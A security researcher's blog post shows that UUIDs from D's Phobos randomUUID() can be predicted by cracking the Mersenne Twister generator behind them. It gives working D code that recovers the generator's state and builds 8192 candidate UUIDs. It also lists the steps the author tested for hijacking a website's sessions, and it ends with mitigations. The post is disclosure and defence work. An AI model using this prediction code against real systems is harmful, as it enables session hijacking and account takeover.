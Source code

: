 ====================
Cracking Phobos UUID
====================

tl;dr for busy people
=====================

- Contrary to other languages, D's current standard implementation of UUID4
  isn't cryptographically secure and shouldn't be used to generate secrets
  This is supported by the RFC which discourages people to use UUIDs for
  secrets.

- Of course lots of people, projects and frameworks use them to generate
  secrets such as session cookies, password reset token and more because it's
  easy, looks like it should work and does work in virtually any other
  language.

- Legitimately, people will ask "OK, it's bad in theory, but how hard is it
  in practice". I show in this article that it is possible to guess the next
  UUID to be generated with a maximum of 8192 requests after having gathered
  156 UUIDs: a very practical attack indeed compared to the original 2¹²⁸
  possibilities.

- This should be viewed as a call for action: Phobos must provide a secure
  random number generator. It's too basic and important a component not to
  provide it in a standard way.

- If your project uses **randomUUID()**, make sure its value isn't supposed
  to be secret. Otherwise change for a token built from cryptographically
  secure randomness.

Context
=======

Some time ago I had a nice chat with a library's maintainer about Random
Number Generation and their relation to security. It reminded me that the
topic is not obvious and I decided to have a look at the state of things in
`D <https://dlang.org/>`_ since that's become my topic of open-source
research these last years.

In particular, I knew that D's standard library, Phobos, does not currently
propose any standard way to get cryptographically secure random numbers. Not
too many projects use the default and insecure **uniform()** to generate
secrets such as session tokens. However I decided to have a look at UUIDs
since they are often for security purpose. And sure enough, many projects
that I will not list use insecure UUIDs.

The thing is, while they should not do so, I cannot fault them for thinking
that it is correct. In most languages UUIDs are generated from secure
randomness and are a reasonable way to generate secure secrets. But that is
not the case in D and this means that these projects are vulnerable.

In this post we'll see how we can predict future UUIDs from previous
ones. It's a bit of work certainly, but it's not that hard. Here's our
road map:

- Identify_: see how random UUIDs are made in Phobos
- Prepare_: crack raw MT19937
- Attack_: predict future UUIDs from past ones
- Defend_: see how to fix this in your project and in Phobos

This will be quite the long and technical post, but come along anyway, it is
sure to be interesting!

A word on randomness
--------------------

Before going further we need to be clear about what we mean by
cryptographically secure randomness and how it differs from regular
randomness.

Normal randomness is generally defined by only one assumption: to have no or
low bias. This means that if you were to generate lots of numbers, the number
of times you see each specific output should be evenly matched. This property
is sufficient for most applications, from a random dog name generator to
Monte-Carlo simulations.

However cryptographic randomness requires more though:

- It must not have any bias
- It must not be possible to predict future outputs from old ones
- It must not be possible to recover past outputs from current ones

(The proper `definition`_ is a bit stronger than this, but this will suffice
in the context of our article.)

.. _definition: https://en.wikipedia.org/wiki/Cryptographically_secure_pseudorandom_number_generator#Definitions

If there's a bias, then I have information about what numbers are generated
without having to gather a single number. I do not think I need to explain
how predicting future numbers can be an issue for a system generating secrets
such as session tokens. The last item though can surprise, but consider this:
if it is possible to recover past outputs from current ones and you use these
random numbers for password reset tokens (for example), then I can ask a
reset of another user's password, then ask a reset of mine and determine what
the previous entry was, disclosing that user's password reset token.

Why aren't cryptographically secure pseudo-random number generators (CSPRNG)
used for everything if they're more secure? Because enforcing these
conditions also makes them much slower than conventional PRNGs and many
applications don't need these guarantees.

MT19937 is not a cryptographically secure pseudo-random number generator and
can't be used as one. It's not a matter of choosing the right seed, or
reseeding often (actually, reseeding often would be a benefit to us as we'll
see at the end). It has some bias (not much admittedly), but most importantly
it's both possible to predict the future and recover the past from just a few
outputs.

.. image:: ../image/chibi_cat_hurry_up.png

.. _Identify:

Structure of a UUID
===================

The standard
------------

Universally Unique Identifiers (UUID) are a category of identifiers defined
in `RFC 4122 <https://tools.ietf.org/html/rfc4122.html>`_. Their goal is, as
the name suggests, to provide a way got generate IDs that are guaranteed to
be different even across systems that can't communicate together. You've
probably seen them, they look like this:
**0d3120f8-f209-43f2-949d-e70dcf228403**

There are different types of UUIDs, but the most common one is Type 4: random
UUIDs. These are described in section 4.4 of the RFC as such:

- bits 6 and 7 must be set to 0 and 1
- bits 12 to 15 must be set to the UUID version number: 4 in this case (0100)
- all 122 other bits must be set to random values

In practice, libraries generally choose 4 32-bit random numbers, concatenate
them and then change bits 6,7 and 12 to 15. This means that some information
about these random numbers is lost in the process, we don't get a clean PRNG
output.

Note that the RFC does not require the use of cryptographically secure random
numbers, but it does warn against using UUIDs for sensitive values if normal
randomness is used.

Phobos implementation
---------------------

Phobos' **randomUUID()** follows these lines perfectly, using non-secure
randomness.

.. code:: java

    UUID randomUUID(RNG)(ref RNG randomGen)
    if (isInputRange!RNG && isIntegral!(ElementType!RNG))
    {
        import std.random : isUniformRNG;
        static assert(isUniformRNG!RNG, "randomGen must be a uniform RNG");

        alias E = ElementEncodingType!RNG;
        enum size_t elemSize = E.sizeof;
        static assert(elemSize <= 16);
        static assert(16 % elemSize == 0);

        UUID u;
        foreach (ref E e ; u.asArrayOf!E())
        {
            e = randomGen.front;
            randomGen.popFront();
        }

        //set variant
        //must be 0b10xxxxxx
        u.data[8] &= 0b10111111;
        u.data[8] |= 0b10000000;

        //set version
        //must be 0b0100xxxx
        u.data[6] &= 0b01001111;
        u.data[6] |= 0b01000000;

        return u;
    }

It generates 4 32-bit uint values using the default random number generator
of std.random: MT19937. If that PRNG's state is too small, it falls back on
Xorshift192 (`code here
<https://github.com/dlang/phobos/blob/v2.093.0/std/uuid.d#L1200>`_).

So our main target is Mersenne Twister 19937, possibly the most common PRNG
in use.

.. image:: ../image/chibi_cat_me_want.png

.. _Prepare:

Cracking MT19937
================

Previous work
-------------

So, `MT19937 <https://en.wikipedia.org/wiki/Mersenne_Twister>`_ is
well-known, used a lot, and insecure. Surely other people have written about
cracking it in the past?

Indeed, there is a profusion of `articles
<https://jazzy.id.au/2010/09/22/cracking_random_number_generators_part_3.html>`_
but the most interesting one was definitely `this article
<https://www.ambionics.io/blog/php-mt-rand-prediction>`_ by Ambionics that
does something different.

The basic strategy we see in these articles is to recover the internal
624-byte state of the Mersenne Twister by collecting 624 values. From there
it is possible to predict any future value. Of course this isn't immediately
an option for our larger project since some bits are missing from UUIDs due
to how they are built, but it is an important cornerstone.

The Ambionics strategy is very interesting also: they show that since each
output value depends only on two state values, it is possible to recover the
previous value with only two outputs. From there they rebuild the complete
seed by inverting its process. Good stuff. We will not get to use it but it
is definitely worth a read.

In the end all Mersenne Twisters are a bit different so we need to tailor the
approach for Phobos, but we will use two values to predict the next one.

How MT19937 works
-----------------

MT19337's internal state is an array of 624 32-bit integers. That array is
seeded at initialization but we will not discuss seeding in this article. For
all intent and purposes, we start with an array of 624 random integers.

Once seeded, two mechanisms are at play. One outputs a number after
scrambling it (in blue in the figure) while the other updates the next entry
by combining three elements of the state array: the *index*, the *next* and
the *conjugate* (naming is hard). This process is in orange in the figure.

.. image:: ../image/mt19937_1.png
    :width: 70%

The actual values presented are mostly specific to Phobos' implementation,
but let's note the most important ones:

::

    n = 624    a = 0x9908b0df   c = 0xefc60000
    m = 397    b = 0x9d2c5680

One thing isn't apparent in this diagram, and it is how *next* and *index*
are combined to produce *y*. *y* is composed of the most significant bit of
*index* and all bits from *next* except its most significant one.

Each time a new number is outputted, both of these processes go one step to
the left, walking the state array in reverse order. After *n* iterations it
loops back to the end of the array.

You can read Phobos's implementation `here
<https://github.com/dlang/phobos/blob/master/std/random.d#L955>`_ but note
that, in order to improve caching performances, both the blue and orange
processes are interweaved.

And with this we are ready to crack normal MT19937!

Reversing the scrambling
------------------------

MT19937 is entirely defined by its internal state. If we can identify all its
624 components then we can just set the state of our own MT19937 PRNG with
these values and it'll output the same numbers. Now, given one output, if we
are able to reverse the scrambling (blue process) then we directly obtain the
corresponding state value. And if we're able to do it once, we can do it for
624 consecutive outputs and have a full internal state. The key part is that
we never need to worry about the updating (orange) process in that scenario.

.. image:: ../image/mt19937_2.png
    :width: 70%

In code, this gives:

.. code:: java

    uint scramble(uint z) {
        immutable b = 0x9d2c5680;
        immutable c = 0xefc60000;

        z ^=  z >> 11;
        z ^= (z <<  7) & b;
        z ^= (z << 15) & c;
        z ^= (z >> 18);
        return z;
    }

Sliding things left and right... Let's just slide the other way around (with
a twist to account for overlaps.

.. code:: java

    uint unscramble(uint z) {
        immutable b = 0x9d2c5680;
        immutable c = 0xefc60000;

        z ^= (z >> 18);
        z ^= (z << 15) & c;
        z = undoLshiftXorMask(z, 7, b); // The twist
        z ^= z >> 11;
        z ^= z >> 22;
        return z;
    }

    uint undoLshiftXorMask(uint v, uint shift, uint mask) {
        uint bits(uint v, uint start, uint size) {
            return (v >> start) & ((1 << size) - 1);
        }

        foreach (i ; iota(shift, 32, shift))
            v ^= (bits(v, i-shift, shift) & bits(mask, i, shift)) << i;
        return v;
    }

    unittest {
        uint z = 0x12345678;
        assert(z == unscramble(scramble(z)));
    }

And just like that, the first hurdle is behind us. Easy. All we need to do to
predict all future numbers is to collect 624 consecutive numbers, unscramble
them and use them to seed our own MersenneTwisterEngine. But that is not our
goal, so let's move on.

.. image:: ../image/chibi_cat_disillusioned.png

Predicting one number
=====================

This is an intermediate step toward our goal. We saw that we have the
elements to crack MT19937 if we get 624 consecutive outputs, but when we get
to UUIDs we won't have that luxury. Remember that each UUID is made of 4
outputs (128 bits) of which 6 bits are missing. If we tried to bruteforce
these 6 bits missing for every 4 outputs we would have to bruteforce 936
bits, which is far outside the realm of possibility.

However, remember that updating a value is done using only 3 base values
so if we know the right 3 state values we can predict one next state.

.. image:: ../image/mt19937_3.png
    :width: 70%

That part is not actually difficult since we just need to follow exactly what
the algorithm normally does. We just need to unscramble/rescramble our raw
output value.

.. code:: java

    uint predictNumber(uint index, uint next, uint conj) {
        immutable n = 624;
        immutable m = 397;
        immutable a = 0x9908b0df;

        uint lowerMask = (cast(uint) 1u << 31) - 1; // All bits but the MSB
        uint upperMask = (~lowerMask) & uint.max;   // Most Significant Bit

        uint q = unscramble(index) & upperMask;
        uint p = unscramble(next)  & lowerMask;

        uint y = q | p;

        auto x = y >> 1;
        if (y & 1)
            x ^= a;
        x ^= unscramble(conj);

        return scramble(x);
    }

    unittest {
        import std.random;

        auto prng = Mt19937(unpredictableSeed());

        immutable n = 624;
        immutable m = 397;
        immutable a = 0x9908b0df;

        uint[] rawOutput = prng.take(n*2).array;

        uint index  = 4;
        uint target = index + n;

        auto prediction = predictNumber(rawOutput[index],      // index
                                        rawOutput[index+1],    // next
                                        rawOutput[index+397]); // conjugate

        assert(rawOutput[target] == prediction);
    }

Alright, so we can read only 3 values which allows us to predict the next
value "index" will have, so 624 outputs later. Now, let's move to the meat of
the challenge: can we still do this efficiently when we start removing bits
due to how UUIDs are formatted?

.. image:: ../image/chibi_cat_catching_prey.png

.. _Attack:

Cracking MT19937 UUIDs
======================

The main issue with UUIDs come, of course, from the fact that some
information is missing. There is nothing we can do to magically summon up
these missing bits, but if few enough are missing we can enumerate all
possibilities. This will give us a list of candidate UUIDs to try against the
vulnerable system.

Each UUID is made of 4 integers, so we will need to work on each of these 4
parts independently. They present different situations so let's give each
UUID part its own name.

.. image:: ../image/uuid_parts.png
    :width: 80%

Now let's say that we have a UUID. *Index* is a P0 and we want to predict the
next value at that index (so in 624 outputs). Our *next* is a P1 naturally,
and our *conjugate* is 397 places further than the *index*. Since 397 % 4 = 1
our *conjugate* will also be a P1. Since 4 bits are missing in each P1 there is
a total of 8 unknown bits to predict that future integer.

.. image:: ../image/uuid_parts_p0.png
    :width: 60%

We can reason in the same way for P1

.. image:: ../image/uuid_parts_p1.png
    :width: 60%

There 2 bits are missing from both the *next* and *conjugate*. Since we
don't know the correct value of the previous part we also don't know its most
significant bit so we need to bruteforce it. It should be possible to find it
for each previously-computed candidate but we didn't spend any time on this.

There are 5 missing bits for P1 bringing our total to 13 missing bits.

Fortunately, even though two bits are overwritten in P2, its most significant
bit remains unchanged, so we have everything we need to compute its future
value. There is no missing bit here.

.. image:: ../image/uuid_parts_p2.png
    :width: 60%

And finally P3 benefits from similarly great conditions with no missing bit.

.. image:: ../image/uuid_parts_p3.png
    :width: 60%

Finally, our grand total is 13 missing bits that we will have to bruteforce
within 4 integers. Once we identified which bits needed to be bruteforced
this is an easy task. This will provide a list of 8192 candidates.

    *Debugging tip: I was actually a bit thrown off by endianness here and
    for a time couldn't find where my missing bits were. In that case
    remember that even though some bits are overwritten, you still have a
    chance that they weren't changed and the UUID is still valid: a
    collision. This means that, by running statistical tests as you tweak
    your values you can measure how many bits you have right by how many
    times collisions occurred. This proved very very useful in this case. Of
    course visualizing data as bits is also a good idea.*

And so finally here is the code allowing us to predict UUIDs from a list of
UUID outputs.

.. code:: java

    auto predictUuid(UUID[] uuidLst, size_t uuidIndex) {
        uint[] data = uuidLst.map!uuidToUints.join;

        size_t index = uuidIndex * 8;

        uint[] part0;
        foreach (mask1 ; 0..16) {
            uint c = data[index+397];

            c &= ~(15 << 32-12);
            c |= mask1 << 32-12;

            foreach (mask2 ; 0..16) {
                uint n  = data[index+1];

                n &= ~(15 << 32-12);
                n |= mask2 << 32-12;

                part0 ~= predictNumber(data[index], n, c);
            }
        }

        uint[] part1;
        foreach (mask1 ; 0..4) {
            uint n = data[index+1+1];

            n &= ~(3 << 6);
            n |= mask1 << 6;

            foreach (mask2 ; 0..4) {
                uint c = data[index+1+397];

                c &= ~(3 << 6);
                c |= mask2 << 6;

                uint i = data[index+1];
                part1 ~= predictNumber(i, n, c);

                i ^= 1 << 31;
                part1 ~= predictNumber(i, n, c);
            }
        }

        uint part2 = predictNumber(data[index+2],
                                   data[index+2+1],
                                   data[index+2+397]);

        uint part3 = predictNumber(data[index+3],
                                   data[index+3+1],
                                   data[index+3+397]);

        UUID[] candidates;
        foreach (p0 ; part0) {
            foreach (p1 ; part1) {
                ubyte[16] candidate;
                candidate[ 0 ..  4] = nativeToLittleEndian(p0);
                candidate[ 4 ..  8] = nativeToLittleEndian(p1);
                candidate[ 8 .. 12] = nativeToLittleEndian(part2);
                candidate[12 .. 16] = nativeToLittleEndian(part3);

                candidate[8] &= 0b10111111;
                candidate[8] |= 0b10000000;

                candidate[6] &= 0b01001111;
                candidate[6] |= 0b01000000;

                candidates ~= UUID(candidate);
            }
        }

        return candidates;
    }

I considered demonstrating this on a real project, finding one is easy
enough, but that would be a disservice to that project. I do not wish to draw
attention and possibly malicious actors to any particular project. However I
did test that attack in practice as such:

- Identify a website who's session cookies are generated from Phobos' UUID
- Create a legitimate account
- Login/logout 156 times to build a list of consecutive UUIDs
  (consecutiveness can be difficult if the website is busy but is practical
  outside peak hours)
- You can now build a list of 8192 candidate UUID and know that the next
  session token generated will be part of that list
- At that point I logged in with another account
- Try all candidates, one of them will work. 8000 requests can be done in a
  matter of seconds so it is definitely a practical attack.

A similar strategy can be applied for filenames in symlink attacks, password
reset tokens (the best since you can ask to reset another account, there is
no need to wait), API endpoints that are supposed to be unguessable etc.

.. image:: ../image/chibi_cat_computer_savy.png

.. _Defend:

Mitigations
===========

Proper solution: use the CSPRNG from your system
------------------------------------------------

Secrets must be generated using cryptographic randomness. On Windows this
means CryptGenRandom, on Linux getrandom() or /dev/urandom, on unix
/dev/random. There are libraries that implement a cross-platform wrapper
correctly such as libsodium (see `sodium
<https://code.dlang.org/packages/sodium>`_ for D bindings).

As a project manager you should consider introducing such a dependency since
there's no substitute for a good CSPRNG and no CSPRNG can be properly seeded
without relying on the system.

However the best way to solve this particular issue would be for Phobos to
provide this interface to the system CSPRNG directly. People take the path of
least resistance, that's a fact that we have to work with. At the moment it
is significantly harder for people to use secure randomness instead of just
going for std.random.uniform(), often "temporarily". If std.uuid is to
change, and it should, it must rely on the system CSPRNG and not something
else.

I know that there is some reluctance to introduce anything related to
cryptography in the standard library, but here we are not talking about
reimplementing an algorithm. It is a case where not acting is provably
causing more damage than providing a standard solution. Especially at the web
era, access to cryptographic randomness is a must.

Improper solution: let's use the CPU's CSPRNG
---------------------------------------------

*The CPU generally embeds a CSPRNG nowadays no? Why not use this instead of
dealing with OS specific resources?*

There are several reasons. For example the system has access to more
entropy and uses the CPU as a source of entropy if available so the system
CSPRNG is guaranteed to be at least as good as the CPU and often better.

Furthermore there have been cases even recently of flaws in CPU CSPRNG.
That's even without considering the fact that it is closed-source which is
never a good thing for security.

But the main reason is more simple: what if the CPU doesn't provide a CSPRNG?
Not all CPUs do, far from it, so what are you supposed to do? Fallback
silently on a method that we know causes issues? That would be giving a false
sense of security even more harmful than what is currently done.

Improper solution: let's write our own CSPRNG
---------------------------------------------

*Still, having to deal with platform-specific code is a pain. Can't I just
write my own CSPRNG instead of depending on the system?*

Nobody should roll their own crypto and expect it to be usable in production.
But let's suppose that you wrote this difficult and critical component
correctly: how are you providing it with entropy?

The only sane source is to draw from the system's CSPRNG, so you're still
not better than if you used it directly, you just added another layer of
bugs.

You might try to collect entropy elsewhere, but you're bound to have less
access to it than the system, and any such collection involves platform
specific code anyway. There's nothing to be gained from this.

Improper solution: let's reseed often
-------------------------------------

*This attack requires you to read many values. I just need to reseed more
often so that the value you're predicting never comes out.*

There is this common misconception that the issue with non-cryptographic PRNG
can be solved by reseeding often. It's true that if you reseed after less
than 624 outputs the attack we outlined is not possible. However it opens the
way to several attacks that are much easier that what we did.

First of all reseeding is only as good as the seed's randomness. You
therefore fall into the same traps as we discussed earlier: if you want it to
be unpredictable you need cryptographic randomness, and therefore you need to
draw from the system's CSPRNG anyway.

But there's a more pernicious effect. The way seeding happens is that the
seed is scrambled repeatedly to provide each of the 624 internal states of
MT19937. So instead of attacking the scrambling of MT19937 and its hundreds
of internal states, we only need to attack the scrambling of the seeding
method, which is much easier to reverse. `This article by ambionics
<https://www.ambionics.io/blog/php-mt-rand-prediction>`_ uses this strategy
to determine the entire internal state by reading only 2 values.

A non-cryptographic PRNG is not suited for cryptographic tasks. It's a fool's
errand to try to twist it into being secure when it is neither its purpose
nor its strength.

.. image:: ../image/chibi_cat_sleeping.png

Conclusion
==========

As we have seen, it is fairly easy to predict Phobos UUIDs. While the RFC
does not require UUIDs to be unpredictable, practice shows that many people
expect them to be cryptographically secure. This causes many security issues
in many projects.

I strongly recommend that Phobos adds a proper standard interface to the
system's CSPRNG. That's the only way to solve not only the core of the UUID
issue but also many similar issues that stem from the fact that it is
currently much easier to use a regular PRNG than a CSPRNG, even when one is
absolutely required.

----

Image sources
-------------

All schemas were made by me and are provided under the `creative commons
3.0 unported license <https://creativecommons.org/licenses/by/3.0/>`_ like
any other original content on this blog.

All cat pictures in this article come from
https://chatsticker.com/sticker/tibi-neko-sticker-no-language-ver-1.
